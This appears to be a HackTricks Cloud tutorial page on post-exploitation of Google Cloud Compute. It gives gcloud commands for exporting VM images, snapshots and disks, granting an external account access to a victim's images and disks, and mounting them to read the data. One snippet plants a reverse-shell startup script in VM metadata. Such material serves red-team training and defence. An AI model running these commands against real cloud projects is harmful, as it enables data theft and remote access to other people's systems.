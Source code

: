# GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (Networking) check:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

* oles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
   *   Create a mount point:

       ```sh
       sudo mkdir -p /mnt/disks/[MOUNT_DIR]
       ```
   *   Mount the disk:

       ```sh
       sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
       ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
